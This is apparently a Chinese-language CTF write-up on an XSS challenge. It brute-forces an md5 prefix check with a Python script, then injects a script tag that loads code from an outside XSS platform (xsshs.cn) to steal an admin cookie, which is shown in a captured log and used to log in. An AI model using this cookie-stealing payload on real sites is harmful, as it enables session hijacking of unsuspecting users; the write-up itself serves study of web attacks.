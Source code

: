 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XSS攻击--获取cookie  # 标题 
subtitle:   跨站脚本攻击   #副标题
date:       2020-03-14              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - XSS  
    
    
---
```


## 原理:

跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

xss漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的，所以xss漏洞关键就是寻找参数未过滤的输出函数。




## 题目:
Leave a message:（                  ）

substr(md5('       '),0,6) === '51a081'



## 考察点：

**1.XSS攻击获取cookie**

**2.md5截断绕过**

## 知识点：

**实例**

从字符串中返回 "world"：

``` php
<?php
echo substr("Hello world",6);
?>
```

语法：`substr(string,start,length)` 

**start**
             必需。规定在字符串的何处开始。
             正数 - 在字符串的指定位置开始
             负数 - 在从字符串结尾的指定位置开始
              0 - 在字符串中的第一个字符处开始
**length**
             可选。规定要返回的字符串长度。默认是直到字符串的结尾。
             正数 - 从 start 参数所在的位置返回
             负数 - 从字符串末端返回


## 解题过程：

**1.** 首先分析页面代码，发现留言框里面可能出现xss漏洞，然后我发现要想成功插入留言内容，必须需要满足`substr(md5('       '),0,6) === '51a081' `的条件，此条代码的含义是括号中的字符串的md5值前六位为`51a081`，可以通过python脚本进行字典爆破。

``` python
import hashlib
for i in range (100000000):
    a=str(i)
    md5=hashlib.md5(a.encode('utf-8')).hexdigest()
    if md5[0:6]=='51a081':
        break
print (a)

```

得到结果：`252192`

**2.** 允许插入的条件满足了，然后就是利用[XSS平台](https://xsshs.cn/)进行获取`cookie`。先在XSS平台，创建项目，选取默认设置即可。然后将项目后的XSS代码，`<sCRiPt/SrC=//xsshs.cn/PArz>`插入留言框，等待几分钟，发现XSS平台已经得到了管理员的`cookie`。

---
location : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
toplocation : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
cookie : token=a9011a0e551f181c1c526881befac44d
opener : 

---

**3.**将cookie复制下来，用菜刀进行登录admin.php界面，拿到flag！



**flag{this_is_a_xss_flag}**





[参考链接（一）--XSS简介](https://www.jianshu.com/p/4fcb4b411a66)

[参考链接（二）--XSS平台的使用](https://www.sohu.com/a/111617739_458138)

## 谢谢您的查阅，欢迎来访！
